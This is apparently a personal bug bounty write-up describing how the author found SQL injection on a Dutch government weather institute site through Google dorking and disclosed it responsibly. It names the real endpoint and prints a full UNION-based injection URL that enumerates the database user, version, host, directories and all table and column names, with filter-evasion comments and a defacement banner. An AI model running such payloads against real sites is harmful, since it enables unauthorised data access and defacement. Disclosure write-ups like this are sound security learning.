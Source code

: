 ```yaml
---
title: "How I Found SQLI on a Dutch Government Website in 20 Minutes"
published: true
ayout: post
categories: [bounty]
tags: [bounty,SQL Injection] 
---
```



## Introduction

Assalamu Alaikum! This is Nasur Ullah. I’m currently an undergrad student and a passionate Webapp security learner from Pakistan.

This is my first write-up and I’ll be sharing how I found SQL Injection Vulnerability on a Dutch government website.



## Story


It was a sunny afternoon in 2020, and I was mindlessly scrolling through my Facebook feed when a particular post caught my eye. It was from my friend [Remonsec](https://twitter.com/remonsec) from Bangladesh Remonsec mentioned the possibility of earning swag from Dutch government Intrigued, I reached out to Remonsec to tell me about scope of Dutch government and the scope was Wildcard so i directly use google dork `php id= site:.knmi.nl`  I was able to uncover several endpoints associated with `KNMI.nl` One such endpoint caught my attention: https://eca.knmi.nl/utils/stationdetail.php?stationid=168. To assess its susceptibility to SQL injection, I inserted a single quote (') into the URL, prompting a site response that concealed certain images. This confirmed the presence of a SQL injection vulnerability.

![Remonsec](/assets/sqli/Remonsec.PNG)

Taking a manual approach, I endeavored to exploit the vulnerability further. After a few minutes of investigation and trial, I successfully executed an exploit, affirming the presence of the SQL injection flaw. I promptly reported my findings to `Dutch government` providing detailed information about the vulnerability and the steps to reproduce it.

## Final URL: `https://eca.knmi.nl/utils/stationdetail.php?stationid=-168%27%20Union%20Select%20concat(%27%3Ccenter%3E%27,%27%3Cimg%20src=%22https://preview.ibb.co/mzji7p/39094260_106012140345838_338859137104347136_n.jpg%22%20height=%22300px%22%20width=%22300px%22%27,%27%3C/center%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22black%22%20size=%225%%22%3EInjected%20by%20.//D4RK%20!Nj3C70R++%27,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22red%22%3EUser::%20%20%20%20%20%20%27,user/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EVersion::%20%20%20%20%27,%27%3C/font%3E%27,version/**_**/(),%27%3Cbr%3E%27,%27%3Cfont%20color=%22green%22%3EDatabase::%20%20%20%27,%27%3C/font%3E%27,database/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EHost::%20%20%20%27,@@HOSTNAME,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3EDirectory::%20%20%20%20%20%20%27,@@BASEDIR,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3ESymlink::%20%20%20%20%27,@@HAVE_SYMLINK,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3ESSL::%20%20%20%27,@@HAVE_OPENSSL,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3C/br%3E%27,(select(@x)/*!50000from*/(/*!50000select*/(@x:=0x00),(select(0)/*!From*/(/*!50000information_schema.columns*/)/*!50000where*/(table_schema=database/**_**/())and(0x00)in(@x:=/*!50000coNcat*/%20(@x,0x3c62723e,/*!50000table_name*/,0x203a3a20,/*!50000column_name*/))))x)),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+``

I quickly made a proof of concept and reported it to them A one days later, I received an email from the Dutch government, thanking me for my contribution to their cybersecurity efforts. As a token of appreciation, they sent me a personalized package filled with swag, a tangible recognition of my valuable contribution.


## Key Takeaways

This experience underscores the effectiveness of employing Google dorking techniques, especially when dealing with wildcard scopes, to unearth potential vulnerabilities within target domains. Additionally, it emphasizes the importance of responsible disclosure and collaboration with security organizations to enhance online security.
